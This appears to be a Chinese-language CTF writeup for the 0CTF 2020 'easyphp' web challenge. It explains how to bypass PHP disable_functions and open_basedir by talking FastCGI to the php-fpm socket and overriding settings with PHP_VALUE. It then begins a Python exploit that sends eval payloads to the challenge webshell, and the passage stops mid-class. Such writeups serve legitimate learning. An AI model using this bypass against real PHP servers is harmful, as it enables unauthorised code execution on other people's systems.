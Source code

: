 ```yaml
---
title: TCTF/0CTF 2020 Writeup
date: 2020-06-29 19:49:05
tags: [web, 0ctf, writeup]
---
```


又是一年 0CTF, 这次一个人一队单刷一次, 做出了两题 WEB, 可惜只输出了一天, 第二天还要赶 ddl, 还是太蔡了 orz



## easyphp

直接给了 webshell, 看 phpinfo,  

disable_functions: 
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,dl  
open_basedir: /var/www/html  
disable_classes: ReflectionClass  
Server API:	FPM/FastCGI  

看样子是需要 rce, 有 disable_functions 和 open_basedir 的限制, 这里可以看到用的是 fpm 而且 fsockopen 没有限制, 可以想到直接打 fcgi, 不过需要知道 unix socket 的路径, 这里可以用 DirectoryIterator 来列目录, 不过试了下只能列根目录, 其他地方还是会被 open_basedir 拦, 比较神奇. 不过好在 fuzz 了一下, 是个常见未知, 在 `unix:///var/run/php-fpm.sock`.  
之后就不用多说了, 用 PHP_VALUE 里面的 open_basedir 覆盖掉 php.ini 里的 open_basedir 即可.  

```python
import requests

sess = requests.session()

def execute_php_code(s):
    res = sess.post('http://pwnable.org:19260/?rh=eval($_POST[a]);', data={"a": s})
    return res.text


code = '''
class AA
{
    const VERSION_1            = 1;

    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;

    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;

    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
```